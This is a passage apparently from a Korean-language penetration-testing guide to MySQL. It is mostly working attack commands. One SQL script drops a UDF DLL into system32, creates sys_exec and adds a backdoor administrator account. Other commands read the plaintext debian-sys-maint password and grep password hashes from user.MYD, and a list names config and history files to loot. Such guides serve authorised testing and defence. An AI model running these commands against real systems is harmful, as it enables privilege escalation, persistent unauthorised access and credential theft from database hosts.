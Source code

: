    - `<데이터베이스>`: 확인할 데이터베이스 이름
   - `<테이블>`: 확인할 테이블 이름

   이 명령을 실행하면 해당 테이블의 모든 레코드가 표시됩니다.
```sql
# CHech the linux comments for more indications
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('C://temp//lib_mysqludf_sys.dll'));
show variables like '%plugin%';
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```
### 파일에서 MySQL 자격 증명 추출하기

_/etc/mysql/debian.cnf_ 내부에는 사용자 **debian-sys-maint**의 **평문 암호**를 찾을 수 있습니다.
```bash
cat /etc/mysql/debian.cnf
```
다음 자격 증명을 사용하여 mysql 데이터베이스에 로그인할 수 있습니다.

파일 내부: _/var/lib/mysql/mysql/user.MYD_ 에서 **모든 MySQL 사용자의 해시를 찾을 수 있습니다** (데이터베이스 내부의 mysql.user에서 추출할 수 있는 해시들)_._

추출하는 방법은 다음과 같습니다:
```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```
### 로깅 활성화

`/etc/mysql/my.cnf` 내부에서 mysql 쿼리의 로깅을 활성화할 수 있습니다. 다음 라인들을 주석 해제하면 됩니다:

![](<../.gitbook/assets/image (277).png>)

### 유용한 파일들

구성 파일

* windows \*
* config.ini
* my.ini
* windows\my.ini
* winnt\my.ini
* \<InstDir>/mysql/data/
* unix
* my.cnf
* /etc/my.cnf
* /etc/mysql/my.cnf
* /var/lib/mysql/my.cnf
* \~/.my.cnf
* /etc/my.cnf
* 명령 히스토리
* \~/.mysql.history
* 로그 파일
* connections.log